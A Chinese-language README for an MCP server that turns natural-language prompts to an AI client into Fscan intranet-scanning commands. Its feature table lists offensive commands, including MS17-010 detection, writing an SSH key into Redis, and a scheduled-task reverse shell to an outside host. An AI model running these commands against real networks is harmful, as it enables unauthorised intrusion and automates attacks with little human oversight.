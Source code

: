 # Fscan MCP Server 模板
## 项目简介
Fscan MCP Server 是一个基于 **Model Context Protocol (MCP)** 的轻量级服务，旨在通过自然语言指令快速调用 **Fscan** 内网安全扫描工具。用户只需输入简单的中文提示（如 “帮我扫下 127.0.0.1 端口”），即可自动触发预设的 Fscan 命令，实现扫描任务的自动化执行。

### 核心功能
**自然语言触发**：支持通过中文指令直接调用 Fscan 扫描（如 “扫描 192.168.1.1/24 网段”）。
**内置命令模板**：预定义常见扫描场景（端口扫描、漏洞检测、服务爆破等），可快速扩展新指令。
**MCP 协议集成**：通过标准化协议与 MCP 客户端（如 Cursor、Claude Desktop）无缝对接，支持动态发现和安全权限控制。

## 安装指南
### 环境要求
Python 3.8+
MCP 客户端（如 [Cursor](https://www.cursor.so/) 或 [万径千机](https://github.com/xxx/wanjingqianji)）

### 步骤 1：安装依赖
需要在mcp_Server同目录下放置fscan.exe
```
pip install mcp==1.0.0
```

### 步骤 2：配置 MCP 客户端

以 **Cursor IDE** 为例：

创建配置文件 `mcp.config.json`：
```json
{
    "mcpServers": {
        "fscan-mcp-server": {
            "name": "Fscan 内网安全扫描工具",
            "command": "uv",
            "args": [
                "--directory",
                "${WORKSPACE}/fscan_MCP",
                "run",
                "--with",
                "mcp",
                "mcp",
                "run",
                "fscan_mcp_server.py"
            ],
            "disabled": false,
            "autoApprove": []
        }
    }
}
```
将配置文件导入 MCP 客户端（路径需根据实际项目调整）。

## 使用示例

### 触发指令

```
用户输入：帮我扫下127.0.0.1端口

模型调用：fscan.exe -h 127.0.0.1 -p 1-65535 -nopoc
```
## Fscan 功能支持

| 功能模块      | 指令示例                   | 对应 Fscan 命令                                     |
| --------- | ---------------------- | ----------------------------------------------- |
| 端口扫描      | 扫描 192.168.1.1 的 80 端口 | `fscan.exe -h 192.168.1.1 -p 80`                |
| 漏洞检测      | 检测 MS17-010 漏洞         | `fscan.exe -h 192.168.1.1 -m ms17010`           |
| Redis 写公钥 | 向 Redis 服务器写入 SSH 公钥   | `fscan.exe -h 192.168.1.1 -rf id_rsa.pub`       |
| 反弹 Shell  | 计划任务反弹 Shell           | `fscan.exe -h 192.168.1.1 -rs 192.168.1.2:6666` |

## 项目结构
```
├── fscan_mcp_server.py  # MCP 服务入口
├── commands.json       # 指令模板配置
└── README.md           # 文档
```

## 贡献指南
**添加新指令**：在 `commands.json` 中定义触发词和对应命令。
**优化逻辑**：修改 `fscan_mcp_server.py` 中的参数解析或响应处理。
**文档完善**：补充使用案例或配置说明。
## 许可证
本项目采用 **MIT 许可证**，详情见 [LICENSE](LICENSE)。

## 参考资料
[Fscan 官方文档](https://github.com/shadow1ng/fscan)
[MCP 协议规范](https://github.com/anthropic/mcp)
[MCP 客户端配置指南](https://www.cursor.so/docs/guides/mcp)
通过本模板，您可以快速构建自定义的 AI 驱动安全扫描工具链，实现从自然语言指令到复杂渗透测试任务的自动化执行。

